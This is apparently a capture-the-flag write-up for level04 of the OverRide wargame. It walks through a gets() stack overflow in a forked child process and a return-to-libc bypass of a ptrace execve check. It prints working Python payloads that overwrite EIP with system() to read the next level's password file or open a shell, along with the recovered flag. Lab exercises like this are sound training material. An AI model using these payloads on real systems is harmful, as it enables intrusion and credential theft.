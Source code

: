 This is the program in normal usage:

```bash
level04@OverRide:~$ ./level04 
Give me some shellcode, k
salut
child is exiting...
```

From ltrace, we can see that an ALARM signal is used after 60 seconds; indeed, when trying to add a lot of characters in the gets function, the program enters into a loop and terminates after 60 seconds due to the SIGALRM signal:

```bash
level04@OverRide:~$ ltrace ./level04 
__libc_start_main(0x80486c8, 1, -10284, 0x8048830, 0x80488a0 <unfinished ...>
signal(14, 0x0804868f)                           = NULL
alarm(60)                                        = 0
fork()                                           = 1634
wait(0xffffd69cGive me some shellcode, k
yo
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... wait resumed> )                             = 1634
puts("child is exiting..."child is exiting...
)                      = 20
+++ exited (status 0) +++
```

A buffer overflow is possible in the child process starting from the gets(&s) function call:

```c
if (pid == 0)
    {
        prctl(1, 1);
        ptrace(PTRACE_TRACEME, 0, 0, 0);
        puts("Give me some shellcode, k");
        gets(&s);
    }
```

At first, we can't trigger the child's segfault by entering commands; this is because GDB only follows the parent process by default:

>By default, when a program forks, GDB will continue to debug the parent process and the child process will run unimpeded.
>If you want to follow the child process instead of the parent process, use the command set follow-fork-mode.

see: https://sourceware.org/gdb/current/onlinedocs/gdb.html/Forks.html

Adding `set follow-fork-mode child` in GDB allows us to finally see the segfault:

```shell
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04 
[New process 1663]
Give me some shellcode, k
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1663]
0x41414141 in ?? ()
```

So, we have successfully sent our shellcode, but the program controls the use of the execve syscall. By searching a bit on how to bypass this protection, it is possible to execute bash without going through this syscall, but rather by calling the `system()` function from the libc.

The key thing to remember about this technique is that instead of executing the instructions of a shellcode, **we will use the `system()` function present in libc**. This means that when we rewrite EIP, we will not attempt to redirect the program to a buffer but directly to the address of `system()`.

When the RET instruction comes at the end of main (for example), the function will actually perform a POP EIP and JMP EIP. Once we have control of EIP and have redirected the JMP to the `system()` function, it will be necessary to specify the string that will serve as an argument for system() **4 bytes later in the stack** because the 4 bytes between EIP and the argument are the return address of `system()`. These 4 bytes can be overwritten with any value, but we can specify the address of `exit()` in case we want to terminate the program properly (not my case).

Furthermore, the argument will be, as you may guess, the **address of a buffer containing "/bin/sh"**, or any other usefull command.

This technique is often used to bypass NX stack protections, but it can also be used in our case. The observed child process is the one called by our initial fork, so if it makes an execve call, orig_eax will indeed contain the value 11. However, `system()` calls a new child process, which in turn calls execve. The check made by ptrace here: `if (ptrace(PTRACE_PEEKUSER, eax, 44, 0) == 11)` will not apply to this new process.

To perform this attack, we first need to find the address of `system()`:

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

So, we have `system()` at `0xf7e6aed0`.

We can enter the command `/bin/cat /home/users/level05/.pass` inside the input obtained by `gets()`, so that `system()` takes the address of the beginning of the buffer as an argument. To do this, we need to find this address. With gdb, we can follow the child again with `set follow-fork-mode child`, set a breakpoint before the `gets()` call, and check the address that eax has received:

```nasm
   0x0804874b <+131>:	movl   $0x8048903,(%esp)
   0x08048752 <+138>:	call   0x8048500 <puts@plt>
   0x08048757 <+143>:	lea    0x20(%esp),%eax
   0x0804875b <+147>:	mov    %eax,(%esp)
   0x0804875e <+150>:	call   0x80484b0 <gets@plt>
```

We find this address in eax:
```bash
Breakpoint 2, 0x0804875e in main ()
(gdb) x/s $eax
0xffffd5b0:	 ""
```

So, we try to enter this address as an argument for the call to system(), and after a few tries with addresses:
```bash
level04@OverRide:~$ (python -c 'print "/bin/cat /home/users/level05/.pass" + "\x00" + "A" * 121 + "\xd0\xae\xe6\xf7" + "AAAA" + "\xe0\xd5\xff\xff"') | ./level04 
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

We can also try to achieve it with an environment variable, working through address trial and error:

```shell
level04@OverRide:~$ (python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "AAAA" + "\xe8\xd8\xff\xff"') | ./level04 
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

But even simpler, to avoid multiple attempts, the string "/bin/sh" is often present by default in memory during program execution due to its use by certain library functions. You can simply retrieve it by searching in memory from gdb:

```bash
(gdb) b main
Breakpoint 1 at 0x80486cd
(gdb) r
Starting program: /home/users/level04/level04 

Breakpoint 1, 0x080486cd in main ()
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
```

No need to use our own buffers to get the flag with this !
```bash
level04@OverRide:~$ (python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "AAAA" + "\xec\x97\xf8\xf7"'; cat) | ./level04 
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

### Resources:
- https://beta.hackndo.com/retour-a-la-libc/
- https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc
- https://css.csail.mit.edu/6.858/2019/readings/return-to-libc.pdf
- https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf